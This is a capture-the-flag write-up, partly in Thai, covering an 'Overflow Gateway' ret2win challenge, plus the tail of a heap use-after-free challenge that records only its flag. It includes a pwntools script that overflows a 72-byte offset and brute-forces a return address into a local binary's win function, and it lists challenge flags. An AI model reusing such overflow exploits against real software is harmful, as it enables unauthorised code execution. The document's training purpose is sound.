An "Advanced Note Management System" is running on the server. It allow you to create, edit, view, and delete notes. The developers thought their memory management was solid, but a subtle bug in the deletion logic leaves dangling pointers behind. With GLIBC 2.35 and allow protections enabled, can you still achieve code execution?

Solved by [@boom51zx](https://github.com/boom51zx)

TODO:

Flag `pwn{KiYI1pvxjU}`
-->

## Overflow Gateway

*A legacy access control system has been discovered running on an internal server. The system prompts users for an "access code" before granting entry. Intelligence reports suggest the developers left a backdoor function in the binary during development - but it was never wired up to the main logic. Can you find a way to trigger it and gain access?*







ret2win ดีๆเลย easy kub, no PIE, มี buffer overflow แค่ padding เขียน `win` address ก็จบ buffer 64 + saved RBP 8 = 72



แต่ๆ มันดันไม่ได้นะสิครับ หลังจากเราใช้ linker version ดังกล่าว ผมเลยแก้ปัญหาโดยการ brute force ซะเลย...

```py
from pwn import *

context.binary = elf = ELF("./vuln", checksec=True)
context.arch = "amd64"

for i in range(elf.symbols["win"], elf.symbols["vulnerable"]):
    p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./vuln"])
    offset = 64 + 8
    p.recvuntil("[*] Enter your access code:\n")
    p.sendline(flat((b"A" * offset), i))
    data = p.recvall(1)
    print(data)
    if b"flag" in data.lower(): break
```



Flag `pwn{USCFLWiaVP}`
